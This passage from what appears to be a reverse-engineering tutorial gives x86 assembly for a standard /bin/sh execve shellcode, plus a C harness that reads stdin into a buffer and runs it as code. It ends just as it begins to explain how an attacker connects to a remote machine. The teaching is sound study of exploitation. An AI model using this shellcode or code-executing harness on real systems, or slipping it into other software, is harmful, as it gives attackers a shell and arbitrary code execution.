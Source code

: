 1. The following is the assembly program we used to generate Standard Shellcode. 

        rev_eng_series/post_11$ cat shell32.asm
        xor eax, eax            
        push eax

        push 0x68732f2f
        push 0x6e69622f

        mov ebx, esp

        push eax
        push ebx

        mov ecx, esp

        xor edx, edx            
        mov al, 0xb             
        int 0x80


2. The following is the program we used to test our shellcode: I have renamed it from code2.c to **executeme.c**. 

        rev_eng_series/post_11$ cat executeme.c 
        #include<stdio.h>
        #include<string.h>
        #include<unistd.h>

        int main() {

            char buffer[1000];
            memset(buffer, '\0', sizeof(buffer));
            read(0, buffer, sizeof(buffer));

            void (*executeme)();
            executeme = buffer;
            executeme();
            
            return 0;
        }

3. Compile it and keep the tester program ready. 

        rev_eng_series/post_11$ gcc executeme.c -o executeme -m32
        executeme.c: In function ‘main’:
        executeme.c:12:12: warning: assignment from incompatible pointer type [-Wincompatible-pointer-types]
        executeme = buffer;
                    ^

    * We will be writing Linux-x86 shellcode. That is why I compiled it to get a 32-bit executable. 

Now that we have everything ready, let us go ahead and understand in what ways the attacker can connect to the remote system. 

Whenever 2 machines get connected, generally, one machine is the client - which initiates the connection and the other is the server which listens to incoming connections and accepts an incoming connection. 
